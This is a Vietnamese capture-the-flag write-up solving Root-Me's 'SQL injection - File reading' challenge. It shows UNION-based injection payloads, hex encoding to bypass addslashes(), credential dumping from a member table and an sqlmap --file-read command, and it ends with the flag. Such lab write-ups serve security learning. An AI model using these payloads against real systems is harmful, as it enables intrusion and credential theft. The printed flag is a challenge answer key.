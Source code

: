 # Write up challenge SQL injection - File reading

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading)<br>
</br>

Truy cập challenge ta thấy gồm 2 trang Authentication | Members. Tiến hành tìm điểm để thực hiện inject. Ta thấy đường link admin trong trang Members khi nhâp `'1` vào sau url thì hiện lỗi.

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

Thực hiện một basic attack `'1 or '1'='1' -- '` thì thấy đã có hàm bảo vệ addslashes() chèn thêm kí tự `\` vào trước `'`, vì vậy nếu cần dùng `'` ta cần mã hóa nó sang hex.

<img src="./img/2.png" alt="normal_acc_TRAbID"/> 

<br> Bắt đầu khai thác sử dụng lệnh union cơ bản `1 order by 1--` tăng dần lên thì thấy đến 5 xuất hiện lỗi 

<img src="./img/3.png" alt="normal_acc_TRAbID"/> 

Vậy có 4 cột trả về. Tiếp theo kiểm tra xem cột nào có thể khai thác. Gõ lệnh: `2 union select 1,2,3,4--`

<img src="./img/4.png" alt="normal_acc_TRAbID"/> 

Kết quả trả về cột 1,2,4 có thể khai thác. Ta sẽ follow vào cột 4 do email dạng xâu. Khai thác lấy tên bảng:
`2 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()
--`

<img src="./img/5.png" alt="normal_acc_TRAbID"/> 

Tiến hành lấy column_name từ bảng member, vì đã có hàm bảo vệ addslashes() như đã phân tích ở trên ta cần mã hóa ‘member’ sang hex `2 union select 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 0x6d656d626572--`

<img src="./img/6.png" alt="normal_acc_TRAbID"/> 

Đã thấy cột login và password tiến hành tiếp thục khai thác thông tin `2 union select 1,2,3,group_concat(member_login,member_password) FROM member--`

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

Đã thấy được pass tuy nhiên submit không thành công, decode base64 thường thấy cũng không thành công luôn. Có lẽ có một loại encrypt được define trước đó rồi và ta cần đọc file để biết được nó như tên challenge đã gợi ý.có lẽ ta cần lấy được source code để giải mã được password. Tiến hành dùng sqlmap đọc file 
`python3 sqlmap/sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --file-read=/challenge/web-serveur/ch31/index.php`

<img src="./img/8.png" alt="normal_acc_TRAbID"/>


Sau khi tìm kiếm thì thấy được file chứa đoạn encrypt

<img src="./img/9.png" alt="normal_acc_TRAbID"/>

Đọc code ta thấy mã hóa dùng cả 3 loại sha1, xor string và base64.
<br> Tiến hành dùng code gợi ý thực hiện với xor string và base64 trước 

<img src="./img/10.png" alt="normal_acc_TRAbID"/>

Cuối cùng là decode dùng sha1

<img src="./img/11.png" alt="normal_acc_TRAbID"/>

Submit thành công 

<img src="./img/12.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** superpassword
